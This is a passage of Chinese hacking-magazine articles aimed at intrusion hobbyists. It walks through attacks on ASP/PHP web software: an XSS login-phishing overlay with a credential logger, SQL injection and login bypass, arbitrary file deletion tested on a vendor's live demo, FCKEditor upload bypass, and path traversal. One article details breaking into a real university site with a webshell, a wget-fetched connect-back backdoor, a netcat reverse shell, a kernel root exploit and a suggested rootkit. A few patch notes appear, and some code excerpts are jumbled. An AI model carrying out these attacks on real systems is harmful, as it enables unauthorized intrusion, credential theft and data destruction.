<div style='Z-INDEX:10000;FILTER:Alpha(Opacity=80);LEFT:0px;VISIBILITY:visible;WIDTH:100%;POSITION:absolute;TOP:0px;HEIGHT:800px;BACKGROUND-COLOR:#fff'><em> ... <form id="form1" name="form1" method="post" action=""> ... </form></em></div>
```

大家可能要问，这不是把表单内容进行了 HTMLEncode 了吗？的确如此，但是还记得在它的外边不是还有个“`<em>`”标签吗？放上此标签的目的正在于此，我们只要通过 XSS 脚本先读进该标签中的内容，然后再输出就可以呈现出 HTML 了，演示代码如下：

```html
<script>
window.onload=function(){
  var j=document.getElementsByTagName('em')[0];
  j.outerHTML=j.firstChild.data;
}
</script>
```

上面这段代码，大家只要看过 2006 年 12 期杂志的《Ajax Hacking With XSS》这篇文章，相信不难明白。“document.getElementsByTagName('em')”的意思是获取第一个 em 标签；“j.outerHTML=j.firstChild.data”的意思是把标签中的内容输出，并替换原标签及其中内容。由于 Eval 会自动执行它内部的代码，所以进行编码时不需要再“window.onload”。

```javascript
var j=document.getElementsByTagName('em')[0];
outerHTML=j.firstChild.data
```

但是上面的构造过程还有一个问题——当用户输入完用户名和密码后提交时怎么办？我们这里先给 Form 加一个“onSubmit="doit();return false;"”属性，并指向如下的代码：

```javascript
function doit(){
  var f=document.getElementById('form1');
  f.outerHTML=''
  +'<iframe width="100%" height="1500px" scrolling="no" allowTransparency="false" border="0" frameborder="0" src="http://www.xxx.com"></iframe>';
}
```

这样，当用户提交代码时，会把表单内容发送到 http://www.target.com/get.asp 上，然后再把当前表单替换成一个跟 div 一样大的 iframe 框架，iframe 框架里的 URL 指向当前 URL 即可。这里之所以没有用 xmlhttprequest 方式发送数据，是因为 Ajax 只能在同一域下进行，但通过 img 来调用却是可以的。ASP 中的代码可以为如下所示的形式。

```asp
<%
name = Request("name")
pwd  = Request("pwd")
Dim FileObject
Set FileObject=Server.CreateObject("Scripting.FileSystemObject")
Dim TextFile
Set TextFile=FileObject.OpenTextFile(Server.MapPath("text.txt"),8,true)
TextFile.WriteLine("name:" & name & ">>> password:" & pwd)
TextFile.Close
%>
```

这样，一个简单的 Web Trojan 就做成了。也许大家会问，为什么不直接修改 Sohu 自带的 Form 表单地址呢？主要原因有两个，一是当用户访问我们的页面时可能已经登录过了；二是即使对方没有登录，也不一定非要在我们的页面上登录。而本文介绍的方法会以覆盖掉原页面的方式强迫用户登录。当然，我的那个表单制作得简单了些，如果把登录的表单做得跟 Sohu 的极为相像的话，那么我相信大部分人会中招。不过，我这里还是给大家提供一下直接修改原 Form 表单的演示脚本吧，内容很简单，只要在脚本里把 Form 的 Action 进行重新赋值就可以了，具体代码如下所示。

```html
<form id="form1" name="form1" method="post">
action="http://www.baidu.com">...
<input type="submit" name="Submit" value="提交" />
</form>
<script>
window.onload=function(){form1.action='http://www.Sohu.com'}
</script>
```

好了，文章到这里就结束了。由于行文仓促，文中不免有失误之处，望大家谅解！通过本文，希望大家能借助我提供的思路扩散思维，发现更好的新思路，比如用别人允许的东西做出想要的效果来。最后，我祝大家新年玩得快乐，跨得快乐！

- 适合读者：入侵爱好者
- 前置知识：ASP 语言

#### 动易网站管理系统最新漏洞分析

文／图 TTFCT

由于某种原因，一个朋友叫我帮忙分析动易网站管理系统的漏洞。我们知道，前段时间动易曝出了众多漏洞，官方肯定对代码进行了更严格的审核，再加上动易好多代码都封装在 DLL 中，要找出其中的漏洞，我开始真的觉得没什么可能性。不过自己还是按照朋友的要求到动易官方网站 http://www.powereasy.net 下载了动易内容管理系统 2006SP4 普及版进行分析。

##### 漏洞分析

看代码的那段时间是很苦的，不过坚持者终会胜利。第一次看动易代码，查找了 80% 的文件，居然没有看到一处可以注入的地方，后来开始查找 Admin 目录下的 Admin_Login.asp 文件，发现了一点问题。Admin_Login.asp 文件中第 162～227 行的代码如下所示。

```vb
Sub ChkLogin()  ' 登录检查参数
Dim sql, rs
Dim UserName, Password, CheckCode, RndPassword, AdminLoginCode
UserName = ReplaceBadChar(Trim(Request("UserName")))
...
UserName = ReplaceBadChar(Trim(Request("UserName")))
Password = ReplaceBadChar(Trim(Request("Password")))
CheckCode = LCase(ReplaceBadChar(Trim(Request("CheckCode"))))
' ReplaceBadChar 过滤了单引号等字符
AdminLoginCode = Trim(Request("AdminLoginCode"))
If CStr(ScriptEngineMajorVersion & "." & ScriptEngineMinorVersion) < 5.6 Then
    FoundErr = True
    ErrMsg = ErrMsg & "..."
End If
If UserName = "" Then
    FoundErr = True
End If
ErrMsg = ErrMsg & "<br><li>用户名不能为空</li>"
End If
If Password = "" Then
    ' // 密码为空则提示错误：密码不能为空
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>密码不能为空</li>"
End If
If CheckCode = "" Then
    ' // 验证码为空则提示错误：验证码不能为空
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>验证码不能为空</li>"
End If
If Trim(Session("CheckCode")) = "" Then
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>你在管理员登录停留的时间过长, 导致验证码失效。请重新返回登录页面进行登录。</li>"
End If
If CheckCode <> Session("CheckCode") Then
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>您输入的验证码和系统产生的不一致, 请重新输入。</li>"
End If
If EnableSiteManageCode = True And AdminLoginCode <> SiteManageCode Then
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>您输入的后台管理认证码不对, 请重新输入。</li>"
End If
If FoundErr = True Then
    Exit Sub
End If
ComeUrl = Trim(Request.ServerVariables("HTTP_REFERER"))
Password = MD5(Password, 16)
Set rs = Server.CreateObject("adodb.recordset")
sql = "select * from PE_Admin where Password='" & Password & "' and AdminName='" & UserName & "'"
rs.Open sql, Conn, 1, 3
If rs.bof And rs.EOF Then
    FoundErr = True
    ErrMsg = ErrMsg & "<br><li>用户名或密码错误！！！</li>"
Else
    If Password <> rs("Password") Then
        ' // 如果用户输入的密码和数据库中密码不一致
        FoundErr = True
        ErrMsg = ErrMsg & "<br><li>用户名或密码错误！！！</li>"
    End If
End If
If FoundErr = True Then
    ' // 调用 InsertLog()，第6个参数 ComeUrl 直接传递
    Call InsertLog(1, -1, UserName, UserTrueIP, "登录失败", ComeUrl, "")
    Session("AdminName") = ""
    Session("AdminPassword") = ""
    Session("RndPassword") = ""
    rs.Close
    Set rs = Nothing
    Exit Sub
End If
```

下面我们再看看 InsertLog() 函数是怎么写的。

同样，在 admin_login.asp 中第 295～312 行的代码如下：

```vb
Sub InsertLog(LogType,ChannelID, UserName, UserIP, LogContent, ScriptName, PostString)
    Dim sqlLog, rsLog
    sqlLog = "select top 1 * from PE_Log"
    Set rsLog = Server.CreateObject("Adodb.RecordSet")
    rsLog.Open sqlLog, Conn, 1, 3
    rsLog.addnew
    rsLog("LogType") = LogType
    rsLog("ChannelID") = ChannelID
    rsLog("LogTime") = Now()
    rsLog("UserName") = UserName
    rsLog("UserIP") = UserIP
    rsLog("LogContent") = LogContent
    rsLog("ScriptName") = ScriptName
    ' // ScriptName 即第六个参数（上文传递的 ComeUrl）
    rsLog("PostString") = PostString
    rsLog.Update
    rsLog.Close
    Set rsLog = Nothing
End Sub
```

看完上面的代码后，我们来分析一下登录页面的执行流程。

首先，用户名、密码和验证码都经过了过滤，然后判断用户名、密码和验证码是否为空；不为空的话再判断验证码、后台管理认证码的正确性；如果上面任意一项没有通过，则退出 Sub 过程。如果退出了 Sub 过程，我们就无法利用了。如果通过了，就取得 HTTP_REFERER 的值，然后再判断用户名和密码的正确性。如果用户名和密码中的任意一个不对，那么都将使 FoundErr 的值为 True。一旦 FoundErr 为 True，程序就调用 InsertLog() 函数插入数据库，把 ComeUrl 作为它的第六个参数传递。由于 HTTP_REFERER 可以伪造，所以我们可以使其值为一段跨站代码或挂马代码。

不过，由于上面的过程要使后台管理认证码正确，这的确是很不容易办到的。假如认证码没有改的话，我们就可以利用了，不过机率很小。关于 HTTP_REFERER 的伪造，我这里就不多说了，大家可以去百度查看相关文章。为了方便大家使用，我这里已编好一个伪造 HTTP_REFERER 的工具“reffer.exe”，并随文提供给大家了。

上面发现的漏洞，可以说利用价值不大，不过，下面的漏洞对于动易网站管理系统来说，就是致命的了。此漏洞存在于 User 目录下的 User_saveflash.asp 文件中，其第 6～22 行代码如下所示。

```vb
Dim act, ObjInstalled_FSO, color_name, CreateI, imgurl, SaveFileName, dirMonth...
objName_FSO = Application("objName_FSO")
ObjInstalled_FSO = IsObjInstalled(objName_FSO)
If ObjInstalled_FSO = True Then
    Set fso = Server.CreateObject(objName_FSO)
Else
    Response.Write "&&SendFlag=保存>> NO"
    Response.End
End If
act = Trim(Request("act"))
' 这里是关键
If act="" Then
    Call Main()
Else
    Call CoverColorFile()
    ' 如果 act 不为空，则调用 CoverColorFile() 函数
End If
Set fso = Nothing
```

下面我们一起来看看函数 CoverColorFile() 的代码。

```vb
Sub CoverColorFile()
' 此函数用于生成图像 BMP 文件
Dim whichfile, head, Colortxt, i, rline, badwords
' 注意 whichfile 变量
Response.Expires = -9999
Response.AddHeader "Pragma","no-cache"
Response.AddHeader "cache-control","no-cache"
Response.ContentType = "image/bmp"
' 输出图像文件头
head = ChrB(66) & ChrB(77) & ...
ChrB(0) & ChrB(0) & ChrB(54) ...
...
Response.BinaryWrite head
whichfile=Trim(Request("color_url"))
' whichfile 由用户提交的 color_url 而来
Set Colortxt = fso.OpenTextFile(Server.MapPath(whichfile),1)
' 以只读方式打开用户提交的变量 whichfile
rline = Colortxt.ReadLine
badwords = Split(rline,"|")
Colortxt.Close
fso.DeleteFile(Server.MapPath(whichfile))
' 该句就是漏洞了...可删除任意文件
For i=0 To UBound(badwords)
    Response.BinaryWrite to3(badwords(i))
Next
End Sub
```

有了上面的漏洞，我们就一起去测试一下官方网站，看看是否存在此漏洞吧。打开官方演示网站，如图 1 所示，我们就以动易的 Logo 作测试吧。查看其路径，发现在 images 目录下，名为 logo.gif，如图 2 所示。

图1

图2

现在，我们注册一个用户，然后进入会员中心，在 URL 处填入 `http://demo.powereasy.net/User/User_saveflash.asp?act=aa&color_url=../images/logo.gif`，如图3所示。成功提交之后，返回到首页，现在我们可以看到，官方仍然存在此重大漏洞。如图4所示，官方 logo.gif 处变成了一个红叉，说明已被删掉。


图3


图4

除此之外，动易还存在一处漏洞，下面我们一起来分析。count 目录下的 Counter.asp 文件中的第 203~270 行的代码如下所示。

```asp
Agent=Request.ServerVariables("HTTP_USER_AGENT")
' // 获取 HTTP_USER_AGENT 值
Agent=Split(Agent,";")
' // 以分号作分隔，此时 Agent 为一数组。
BcType=0
If InStr(Agent(1),"U") Or InStr(Agent(1),"I") Then BcType=1
If InStr(Agent(1),"MSIE") Then BcType=2
Select Case BcType
Case 0
    Browser="其它"
    System="其它"
Case 1
    Ver=Mid(Agent(0),InStr(Agent(0),"/")+1)
    Ver=Mid(Ver,1,InStr(Ver," ")-1)
Case 2
    Browser=Agent(1)
    System=Agent(2)
    ...
```

```asp
Ver=Mid(Agent(0),InStr(Agent(0),"/")+1)
' // 从字符串中提取版本号
Browser="Netscape" & Ver
System=Mid(Agent(0),InStr(Agent(0),"(")+1)
Case 2
    Browser=Agent(1)
    System=Agent(2)
    System=Replace(System,")","")
End Select
System=Replace(Replace(Replace(...),"Win","Windows"),"NT5.0","2000")
Browser=Replace(Browser," ","")
System=Left(System,20)
Browser=Left(Browser,20)
Call UpdateVisit()
```

接下来再看看 `UpdateVisit()` 中的代码：

```asp
Sub UpdateVisit()
    Dim rsOut,VisitCount,OutNum
    VisitCount = 0
    Set rsOut = conn_counter.Execute("select count(ID) From PE_StatVisitor")
    VisitCount = rsOut(0)
    If VisitCount >= VisitRecord Then
        Dim rsOd
        Set rsOd = conn_counter.Execute("select top 1 VTime from PE_StatVisitor order by VTime asc")
        If CountDatabaseType="SQL" Then
            conn_counter.Execute("update PE_StatVisitor set ... Browser='"&Browser&"', System='"&System&"' ...")
        End If
    Else
        ...
    End If
    Set rsOut = Nothing
End Sub
```

由于 `HTTP_USER_AGENT` 可以伪造，且只将空格替换成了没有空格，所以还是存在漏洞的，此漏洞为注入漏洞。不过利用起来很不容易，`Browser=Left(Browser,20)` 这个代码把 Browser 限制到只有 20 个字符。要想利用，我们要使 `BcType` 的值为 1 或者为 2。要使 `BcType` 的值为 1，必须包含字符“U”或字符“I”；要使 `BcType` 的值为 2，必须包含“MSIE”4 个字符。

适合读者：入侵爱好者

前置知识：无

## 动易蓝色伊人下载系统


文/图 花非花 [I.S.T] && [L.S.T]

不知大家还记得有一款以淡蓝色为主色调的留言本不？对，就是蓝色伊人留言本。记得曾经公布了该程序的漏洞，今天偶然看见了一款仍以淡蓝色调为主色调的下载系统，正是“蓝色伊人下载系统”。下面就让我们一起来测试一下这款下载系统吧！

### 蓝色伊人

- 注入漏洞
- 后台验证过滤不严

我们先来看 soft.asp 文件中的部分代码。

```asp
softid = request.querystring("softid")
...
sql = "select * from soft where id=" & softid
set rs = server.createobject("adodb.recordset")
rs.open sql, conn, ,3, 3
```

其中 SQL 是一个变量，用来存储 SQL 查询语句，然后执行该语句。这里 softid 通过 request.querystring 从客户端获取，没有过滤，造成了注入漏洞。

字符限制导致可输入长度较短：BcType=1 时约 19 个字符，BcType=2 时约 16 个字符。虽然有漏洞，但利用价值较小。

```asp
'// 用过滤函数 ReplaceBadChar() 处理
RsLog("PostString") = PostString
rsLog.Update
rsLog.Close
Set rsLog = Nothing
End Sub
```

##### 修补方法

对于第一个漏洞（HTTP_REFERER 导致的问题），可以通过修改日志写入代码进行修补。

```asp
Sub InsertLog(...)
  Dim sqlLog, rsLog
  sqlLog = "select top 1 * from PE_Log"
  Set rsLog = Server.CreateObject("Adodb.RecordSet")
  rsLog.Open sqlLog, Conn, 1, 3
  rsLog.AddNew
  ...
  rsLog("ScriptName") = ReplaceBadChar(...)
```

对于第二个删除任意文件漏洞，尽量不要从外部接收危险参数，或移除类似 `fso.deleteFile(server.mappath(whichfile))` 的危险调用。

对于第三个由 HTTP_USER_AGENT 可伪造引发的问题，可过滤单引号，示例修补代码如下。

```asp
Browser = Left(Browser,20)
Browser = Replace(Browser,"'","”")
```

至此，动易内容管理系统的漏洞分析完毕。虽然未必能直接拿到 WebShell，但漏洞仍具破坏性，建议及时修补，避免被恶意利用。

```asp
1. name = request.form("name")
2. password = request.form("password")
3. ……省略无关代码……
4. sql = "select * from admin where name='" & name & "' and password='" & password & "'"
5. set rs = server.createobject("adodb.recordset")
6. rs.open sql, conn, 1, 1
```

第 1 和第 2 行代码表示通过 request.form 方法获取从客户端 post 上来的数据 name 和 password。第 4 行中用 SQL 变量保存 `select * from admin where name='' & name & '' and password='' & password & ''` 的结果。第 6 行是执行 SQL 保存的代码。在 post 数据的时候，没有过滤“不良”字符，导致我们用经典的 `or'='or'` 便可绕过验证，并以管理员身份登录。

##### 漏洞测试

我们这里只测试 soft.asp 文件的注入。绕过后台验证比较简单，直接在登录那里输入 `or'='or'` 就可以了。

在下载系统数据库中，管理员表名为 admin，列名有 id、name 和 password，第一个管理员的 ID=1。知道了这些，现在我们就可以进行注入了。

提交：`http://localhost/soft.asp?softid=33%20and%20(select%20asc(mid(name,1,1))%20from%20admin%20where%20id=1)>100`，返回了错误，如图1所示。


图1

这说明 ID=1 的管理员的 name 字段的值的 ASCII 码值不大于 100。再把 `>100` 改成 `>97` 仍然出错，再改成 `>96` 就返回正常了，说明 ID=1 的管理员的 name 字段的值的 ASCII 码值为 97。把 `>100` 改成 `=97` 后，返回正常了，如图2所示。


图2

然后改变 `mid(name,1,1)` 第一个“1”为 2、3……，然后和上面的方法一样继续猜解。猜完之后即可得到 name 字段所有的 ASCII 码值为：97、100、109、105 和 110。再改变 `mid(name,1,1)` 的 name 为 password，继续按照上面的方法猜解。猜完之后得到的结果也是 97、100、109、105 和 110。用牛族转换器转换一下，得到 admin，如图3所示。


图3

再用得到的密码登录，后台功能相对简单，但是仍然可以跨站。打开后台的“分类管理”链接，如图4所示。修改里面的大类，注意前面加了个特殊图片的那些地方，如图中圈住的地方，这里以图中的“ASP源码”进行修改。输入 `ASP源码<script>alert('huahua')</script>`，提交后，后台就跨出来了，到前台去看看，如图5所示。


图4


图5

至于接下来该怎么利用，相信大家看黑客防线这么久，都该知道如何操作了，我就不再赘述了！好了，蓝色伊人下载系统的分析和利用到这里就介绍完了。大家可以到网上去找采用这套系统的网站自行测试一下试试。最后，文章若有不足之处，还请大家予以指出，谢谢啦！

适合读者：入侵爱好者  
前置知识：Linux 基础

## 从Web漏洞到Root权限全程实现

文/图 chbin(H.U.G)


很早就想写一篇从基本的 Web 漏洞到最后的 Root 权限的全过程展现的文章，但是一直苦于没有时间，最近比较轻松，所以抓紧时间写出了本文。废话不多说了，还是一起来看文章吧。

经常看黑防的朋友一定知道 F2Blog 的漏洞利用，这次我们讲解的就是利用 F2Blog 拿到 WebShell 到最后获得 Root 的过程，相信这里面有很多的技巧大家可以学到。

首先到 milw0rm.com 搜索 F2Blog 的漏洞利用程序并下载回来。有了 EXP，我们就可以利用 Google 轻松地搜索到很多这样的程序，我们在结果中随便挑选一个站点 `http://www.jwit.edu.tw/~s9246071/blog/` 作为我们今天的目标。首先把 EXP 保存到 `C:\usr\local\php5`，因为我用的是 WAPM，大家可以到 `http://www.wapm.cn/` 下载。好了，我们进入 PHP 的目录执行 EXP，如图1所示，这就是 f2blog.php 的运行界面。根据 EXP 的要求，我们填写参数并执行，如图2所示。大概等了有 3 分钟的时间，出现如图3所示的画面就表示我们已经成功了，得到了一个一句话的 PHP 木马，地址是 `http://www.jwit.edu.tw/~s9246071/blog/cache/loveshell.php`。


拿出 lanker 写的 ASP&PHP 一句话木马客户端连接我们可爱的小木马，如图4所示，我们就成功地拿到了一个 WebShell 了，但是这样的 WebShell 毕竟很难受，再利用 lanker 的客户端上传一个大马上去吧。我们先得到 Web 的路径为“/home3/s9246071/public_html/blog/cache”，有了路径就可以用上传功能了，上传一个 c99shell 木马，成功后访问它，如图5所示，这台机器真不错啊，竟有 602G 的硬盘容量。


图5


图7

我习惯性地看了看自己的权限，在 Command execute 里面输入 `id;uname -a` 得到了以下的结果：`uid=30(wwwrun) gid=8(www) groups=8(www) Linux www 2.6.5-7.257-bigsmp #1 SMP Mon May 15 14:14:14 UTC 2006 i686 i686 i386 GNU/Linux`，内核是 2.6.5 版的，操作系统是 SuSe 9.0。

虽然我们已经有了 WebShell，但这还不够。我们要运行本地的提权工具就必须拿到一个本地的 Shell 才可以。在命令里输入 `cat /etc/passwd` 可以得到一些用户，可以利用洗光试一下看有没有弱智的用户。当然我是不会这样浪费时间的，而是直接用 comeback 后门，让服务器连接到我自己的机器上。首先把 comeback 后门上传到空间 `http://cnbird.ifastnet.com/comeback.pl`，然后在 WebShell 里执行命令 `wget http://cnbird.ifastnet.com/comeback.pl -P /tmp`，意思是把 `comeback.pl` 下载到 `/tmp` 目录下。


图6

了解 Unix 的朋友都应该知道，`/tmp` 目录的权限是可读可写的。如图6所示，我们已经把 comeback 后门成功上传了。下面在 WebShell 下执行吧！输入命令 `perl /tmp/comeback.pl`，结果为 `Connect Back Backdoor by Ch3m0nZ - Satanic Souls Alvo: /tmp/comeback.pl [Host] <Port>`，这条命令是告诉我们后门的具体利用方法。先看一下我自己的 IP 地址，然后用 NC 绑定一个端口就 OK 了。我本机的 IP 地址是 `121.16.23.25`，在 CMD 输入 `nc.exe -vv -l -p 12345`，意思是在本地开一个 12345 端口，让远程机器通过这个端口来连接。再回到 WebShell 里执行 `perl /tmp/comeback.pl 121.16.23.25 12345`，如图7所示，NC 已经有反应了，我们就可以在这里执行 Shell 了。为了让这个 Shell 更直观一些，我直接输入 `bash -i`，然后再输入以下的基本命令：`who`、`w`、`ls` 和 `pwd`，这些命令的意义不懂的朋友可以用 Google 查找。

这样我们就得到了一个 Shell 了，接下来要做的事情是提权了。Linux 有一个 PCTRL 的本地溢出漏洞。Linux Kernel 的 `prctl()` 调用在处理 Core Dump 时存在漏洞，本地攻击者可能利用此漏洞提升自己的权限。`prctl()` 调用允许未授权进程设置 `PR_SET_DUMPABLE=2`，因此当发生段错误时产生的 Core 文件将被 Root 用户拥有。本地用户可以创建恶意程序，将 Core 文件 Dump 到正常情况下无权写入的目录中，这可能导致拒绝服务或获得 Root 权限。我们到 Google 搜索这个漏洞的 EXP，很快就找到了利用程序 `prctl.c`，把它放到本地架设的服务器上。在 Shell 里执行命令 `wget http://121.16.23.25/prctl2.c`，就可以成功上传到服务器了，下面开始编译执行吧。由于这个漏洞程序需要静态的编译，所以执行命令 `gcc prctl2.c -o local -static -Wall`。编译成功后，我们输入 `wwwrun@www:/tmp>./local`，程序就开始执行了，等待 1 分钟左右的时间，输入命令 `id`，可以发现这个时候我们已经是 Root 权限了，如图8所示。


图8

剩下的事情就是装个 Rootkit 了。目前比较经典的有 Adore-NG、SK2.0 等，安装方法这里就不再介绍了。如果有不熟悉 Rootkit 的朋友，可以参考网上的一篇很经典的 Rootkit 文章，其地址为 `http://baoz.net/html/document/200603/1143618484.html`，希望能对大家有所帮助。

适合读者：入侵爱好者  
前置知识：无

#### FCKEditor 入侵加提权

文／图 式夫

最近考试完毕，辛辛苦苦努力了一个学期，什么都没好好学，就只看 C 语言，结果还把 C 给考砸了，让我着实郁闷了很久，于是决定去测试学校的网站。我以前检测学校的主站是用 PHP 写的，存在注入漏洞，但是我没拿到 WebShell，只得到了一个后台权限，实在失败。这次决定卷土重来，不到黄河心不死！

首先还是先请出百度助我一臂之力（没办法，网页太多了，懒得找了），输入“site:xxxx.edu.cn inurl:php”。因为本人现在对 PHP 入侵情有独钟，所以直接从 PHP 入手，最终我搜到了如图1所示的一个页面。大家注意看 URL 中有一个“link=departintro.php”，可以猜想一下它是否存在远程包含漏洞。我把参数改成“link=http://www.hackwolf.cn/1.txt？”，结果提示如图2所示的信息，绝对路径出来了，还得到了一些相关信息。不过这个暂时没用，我们把它扔到一边，再看看还能找到什么有利用价值的东西出来。

如图3所示，点击“相关文件”后，下面会出现一个“基础一部2005年度工作计划”，看到这个我们应当想到，会不会有 EWEBEditor 呢？如果有，就好办多了。于是我查看了一下超链接的地址 http://xxxxxx/FCKeditor/userdocs/...doc，很遗憾，它没有使用 EWEBEditor 当在线编辑器。不过我们从 URL 中可以看到，它使用了 FCKEditor 当静态 HTML 在线编辑器。

而这个 FCKEditor 以前听说有上传漏洞，所以专门上网查了一下资料。不过，似乎网管老师的速度比我快，他也知道了 FCKEditor 的漏洞，所以把漏洞相关文件全部给删掉或者改名了，网上介绍的方法一点用都没有。在敌明我暗的情况下，我决定先下载 FCKEditor 源代码看看能不能有什么进展。幸运的是，最终发现网管没有处理一个很重要的文件，就是 fckeditor.html 这个文件，通过这个文件我顺利地找到了上传图片的地方，如图4所示。

虽然知道这套系统肯定过滤了 PHP 类型的文件，不过我还是准备先上传一个 PHP 文件探探虚实。没想到这一探就探出了一个大玄机。我还未上传文件，程序就提示只能上传 jpg、png、gif 等文件，如图5所示。也就是说，FCKEditor 对上传文件的过滤是在本地而不是在服务器上，这样的话，我们只要修改 HTML 代码，然后本地提交就可以顺利上传得到一个 WebShell 了。这个方法大家都清楚，我就不多说了。

不过现在是在一个对话框中进行操作；我们要如何才能绕过限制顺利得到 WebShell 呢？思考一会后，想到通过抓数据包并用 NC 提交，提高成功率。

我先写了一个 `1.php` 文件，内容如下：

```php
<?php
echo "hackwolf";
?>
```

其作用是回显 `hackwolf`。打开 WinsockExpert 监听，抓到如图6所示数据包。

将其中的 `110.jpg` 改成 `110.php` 即可。由于 `jpg` 与 `php` 都是 3 个字符，无需改 `Content-Length`。修改后保存为 `1.txt`，再写批处理：

```bat
nc.exe -v www.******.edu.cn 80 <1.txt >>2.txt
```

保存为 `1.bat`，与 `nc.exe`、`1.txt` 放同目录后执行。根据图7返回数据，可看到 PHP 文件已提交并回显上传路径。

访问木马路径 `http://www.***/FCKeditor/userimages/110.php`，结果如图8，说明文件已成功上传并绕过限制。

由于网管疏忽，PHP 木马权限很高。点击“执行 cmd 命令”，输入下面命令：

```cmd
net user Hackwolf$ Hackwolf /add;
net localgroup administrators Hackwolf /add;
```

顺利提权后进入 3389，如图10所示。文中还提到给网管发邮件说明漏洞，入侵过程结束。

最后讨论修补漏洞：根因是 FCKEditor 仅在本地过滤上传类型。建议在服务端校验，或判断是否为外部提交数据。

```asp
<%
' 判断从什么页面转来
url_ref = Cstr(Request.ServerVariables("HTTP_REFERER"))
server_name = Cstr(Request.ServerVariables("SERVER_NAME"))
' 判断是否从外部提交的数据
if mid(server_v1,8,len(server_v2))<>server_v2 then
  response.write "<script>alert('哥们，哪来的回哪去呗!')</script>"
  response.end
end if
%>
```

适合读者：入侵爱好者  
前置知识：无

#### 桃源网络硬盘最新漏洞分析与利用

文/图 [B.A.T 联盟]随风而去，黑星

虽然桃源网络硬盘以前出现过很多的漏洞，但是从 Cookie 欺骗以后就一直没有什么新的漏洞被公布出来。最近我对桃源网络硬盘的最新的两个版本进行了分析，发现了一些漏洞，下面将我的发现拿出来与大家共享。

我最先下载的版本是免费版 4.2（没有办法，太穷了，没法测试商业版），就在我测试完后（发现了几个漏洞时）要去官方测试时，发现官方已经开始提供免费版 4.3 下载了。官方在 4.3 版的介绍中提到修补了以前版本的两个漏洞：上传文件时的大写安全漏洞和注册用户名时一种特殊字符引起的安全漏洞。以上两个漏洞如果成功利用，可以拿下 WebShell，下面我们先对这两个漏洞进行分析和利用。

用户并用 WSockExpert 抓包，如图1所示，然后修改抓来的数据包了。我们只需修改两个地方就可以了，代码如下所示。

对上传文件后缀名过滤不严的漏洞是最好利用的，也是最有效的。这个漏洞我没有发现（是我看了官方的介绍才知道的，失败呀！），主要问题出在桃源没有对上传文件的后缀名进行严格的处理。当我们上传文件时，将桃源不允许上传的后缀名改为大写就可以逃过它的检测。这类漏洞的利用就不说了，大家都应该很熟悉了。我也测试过了，的确存在这个漏洞。这个漏洞与我下面要介绍的上传文件到任意目录的漏洞一起利用，可以说是非常完美的。

第二个漏洞我自己也发现了。受动易最新漏洞的启发，我最初也想测试桃源是不是也存在类似的漏洞，但是在我注册时发现它根本不让我注册含有“.”的用户名，最后通过抓包用 NC 提交，终于成功注册了一个特殊的用户名 test.asp，利用 Windows 2003 的特性（对包含“.asp”为名字的目录里面的文件，不论是什么后缀名都当作 ASP 文件来解析），我们要做的就是上传一个 WebShell 就 OK 了。

现在来看一下利用过程。首先注册一个正常的……

```http
POST /webdisk/ajaxpro/Webdisk.reg, Webdisk.ashx HTTP/1.1
Accept: */*
Accept-Language: zh-cn
X-Ajaxpro-Method: RegUser
Referer: http://10.1.41.244/webdisk/reg.aspx
Content-Type: text/plain; charset=utf-8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: 10.1.41.244
Content-Length: 297
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASP.NET_SessionId=...
...
{"team":"...","username":"blackstar","password":"123456", ... ,"curl":"/webdisk/reg.aspx"}
```

将其中的“`username`:`blackstar`”改为“`username`:`blackstar.asp`”，将“`Content-Length: 297`”改为“`Content-Length: 281`”（因为我们修改时增加了 4 个字符），最后用 NC 提交，命令为“`nc 10.1.41.244 80 <reg.txt`”。如果没有返回什么错误，就说明成功了。接下来就是直接上传一个 WebShell 了（把后缀名改为 txt 上传），成功后直接提交 WebShell 地址就可以得到 WebShell 了，如图2所示。

下面要介绍的就是本文的重点——桃源上传文件到任意目录的漏洞。经我测试，发现在 4.2 和 4.3 这两个免费版中都存在这个漏洞，如果结合第一个漏洞，将对 4.2 版产生致命的打击（就算管理员 BT，设置用户的文件目录不能访问，也可以将文件上传到上级目录，从而拿下 WebShell）。漏洞出在上传文件时，我们可以在 URL 中直接修改上传的路径。先点上传，然后通过属性得到上传的真实地址，如“`http://10.1.41.244/webdisk/upload.aspx?Path=/`”，其中的 Path 没有过滤，导致可以将文件上传到上级目录以至根目录。如提交“`http://10.1.41.244/webdisk/ContentPane.aspx?Path=/../../../../`”，就可以将上传的文件上传到根目录，如图3所示。

接下来我将暴路径漏洞和读任意文件漏洞一起来讲。暴路径漏洞很多地方都有，如上面的上传到任意目录的漏洞，如果我们多加几个向上跳转，就可以暴出物理路径。我将它们放在一起来讲，主要是因为它们都是 show.aspx 产生的漏洞。show.aspx 没有过滤特殊字符，可以向上跳转，从而读取任意文件。利用的方法是，先上传一个图片，你会发现上传的图片是可以直接查看的，如图4所示。看见 test.jpg 上的图标没有？在上面点右键，选择“复制快捷方式”，然后将地址复制到地址栏，形如“`http://10.1.41.244/newdisk/show.aspx?type=1&filename=test.jpg&filepath=test%2ftest.jpg&GUID=A544313CE8CBF5F1`”。

由于没有任何过滤，导致我们可以任意修改路径和文件名，这样就会出现漏洞了。我们提交地址“`http://10.1.41.244/newdisk/show.aspx?type=4&filename=test.jpg1&filepath=test%2ftest.jpg1&GUID=A544313CE8CBF5F1`”，看看会出现什么情况，结果如图5所示。这个地址一共修改了两处，第一处是将“`type=1`”改为“`type=4`”（就是以文本的方式打开），第二处是将“`test.jpg`”改成一个不存在的文件，记得还要改 filepath 的值，这两个文件名要一样才可以。

现在物理路径暴出来了，我们继续测试读取任意文件的漏洞。我们最想看的是 web.config 文件，此时可以提交“`http://10.1.41.244/newdisk/show.aspx?type=4&filename=web.config&filepath=../../web.config&GUID=A544313CE8CBF5F1`”，结果如图6所示。得到数据库地址后，我们还可以直接读取数据库的内容，但是我读出来的全是乱码，用下载工具下载后也没有办法得到完整的数据库，主要是里面加入了一些 HTML 语句，希望高手能够帮忙解决这个问题。

